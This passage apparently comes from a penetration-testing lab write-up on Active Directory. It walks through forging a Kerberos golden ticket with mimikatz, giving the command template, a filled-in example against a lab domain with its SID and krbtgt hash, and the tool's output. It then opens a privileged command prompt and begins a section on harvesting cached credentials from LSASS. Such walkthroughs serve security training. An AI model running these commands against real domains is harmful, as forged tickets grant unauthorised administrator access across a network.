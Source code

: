 ![Golden Ticket needed information](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MMGu8pD-XD5iMQICG12%2F-MMHHRakx2AaYACrfooE%2FGolden%20Ticket%20MIMKATZ.png?alt=media&token=b85f8d41-4f46-49a1-9af6-577e31af0542)

the same command but without /service.

`mimikatz # kerberos::golden /user:anyuser /domain:domainname /sid:DomainSID /krbtgt:TGT-NTLM-Hash /id:userid`


```c
mimikatz # kerberos::golden /user:Administrator /domain:Controller.local /sid:S-1-5-21-849420856-2351964222-986696166  /krbtgt:5508500012cc005cf7082a9a89ebdfdf /id:500
User : Administrator
Domain : Controller.local (CONTROLLER)
SID : S-1-5-21-849420856-2351964222-986696166
User Id :  500
Groups Id :  *513  512  520  518  519
ServiceKey:  5508500012cc005cf7082a9a89ebdfdf - rc4_hmac_nt
Lifetime :  11/16/2020  10:10:20 AM ;  11/14/2030  10:10:20 AM ;  11/14/2030  10:10:20 AM

-> Ticket : ticket.kirbi
  * PAC generated
  * PAC signed
  * EncTicketPart generated
  * EncTicketPart encrypted
  * KrbCred generated

Final Ticket Saved to file !
```

Then we will use this golden ticket to access other machines.

```c
mimikatz # misc::cmd
Patch OK for  'cmd.exe' from 'DisableCMD' to 'KiwiAndCMD' @ 00007FF63A5543B8
```
‌
You will now have another command prompt with access to all other machines on the network

![](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MMGu8pD-XD5iMQICG12%2F-MMHH-1UBR79C5s9Z76w%2Faa.png?alt=media&token=f3c6617e-c59c-4902-8a48-16328d091cbf)



![](https://gblobscdn.gitbook.com/assets%2F-MGT2pXneep03jo0FJjo%2F-MMGu8pD-XD5iMQICG12%2F-MMHH1SXjrqgT9KBvfDT%2Faa2.png?alt=media&token=7acd82de-dbaa-49b5-8bde-aee95255e2ea)



## **Lateral Movement**

### **Cached Credential Storage and Retrieval**

Since Microsoft's implementation of Kerberos makes use of single sign-on, password hashes must be stored somewhere in order to renew a TGT request. In current versions of Windows, these hashes are stored in the **Local Security Authority Subsystem Service (LSASS)** memory space. the LSASS process is part of the operating system and runs as SYSTEM, we need SYSTEM (or local administrator) permissions to gain access to the hashes stored on a target.
